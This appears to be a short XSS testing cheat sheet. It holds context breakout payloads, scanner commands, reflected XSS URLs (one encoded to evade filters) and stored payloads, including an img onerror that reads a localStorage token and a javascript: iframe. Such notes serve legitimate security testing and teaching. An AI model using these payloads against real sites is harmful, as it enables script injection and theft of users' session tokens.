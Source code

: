 
## Context Analysis:
```
   - HTML Context:
     <div>USER_INPUT</div> → </div><script>alert(1)</script>
   
   - Attribute Context:
     <input value="USER_INPUT"> → " onmouseover="alert(1)
   
   - JavaScript Context:
     <script>var name = 'USER_INPUT';</script> → ';alert(1);//
```


## Tools:
   - Manual Testing: Browser DevTools (Elements/Console tabs)
   - Automated: 
     * Burp Scanner
     * OWASP ZAP: `zap-cli --quick-scan -s xss`
     * XSStrike: `python3 xsstrike.py -u "https://site.com/search?q=test"`
     * Caido



# BASIC XSS EXPLOITATION

## Reflected XSS:

### URL Based
```
https://vuln-site.com/search?q=<script>alert(document.domain)</script>
```

Where the exploit is encoded to get past filtering

```url
%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```


## Stored XSS in web pages

### Profile Field:
```html
## Stored as an image
<img src=x onerror=alert(localStorage.getItem('token'))>

## Stored in an iframe
<iframe src="javascript:alert(`Stored XSS`)">
```

